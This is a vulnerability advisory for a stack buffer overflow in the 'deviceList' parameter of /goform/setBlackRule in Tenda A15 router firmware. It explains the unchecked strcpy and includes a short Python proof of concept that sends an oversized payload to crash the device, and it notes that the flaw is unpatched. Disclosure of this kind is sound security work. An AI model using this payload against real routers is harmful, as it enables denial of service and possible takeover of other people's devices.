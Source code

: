 # Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "deviceList" parameter at /goform/setBlackRule.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In formAddMacfilterRule function, get deviceList via websGetVar and pass first argument to parse_macfilter_rule

![1703731028904](image/setBlackRule.zh-cn/1703731028904.png)

The parse_macfilter_rule function, however, is not passed to the dest_rule->name variable via strcpy without any length checksum, which could lead to an attacker using this buffer overflow to perform a DOS attack and an RCE attack.

![1703731130516](image/setBlackRule.zh-cn/1703731130516.png)

## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/setBlackRule'

payload = {
    'deviceList': 'a' * 0x400 + '\r' + 'ff:ff:ff:ff:ff:ff'
}

r = requests.post(url=url, data=payload)

print(r.content)
```

## Trigger details

See video content
[![](https://res.cloudinary.com/marcomontalbano/image/upload/v1704443494/video_to_markdown/images/youtube--Dr2DSNPQKPk-c05b58ac6eb4c4700831b2b3070cd403.jpg)](https://youtu.be/Dr2DSNPQKPk "")


## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html

## Acknowledgment

The vulnerability belongs to Chenjun Ma from Wuhan University.
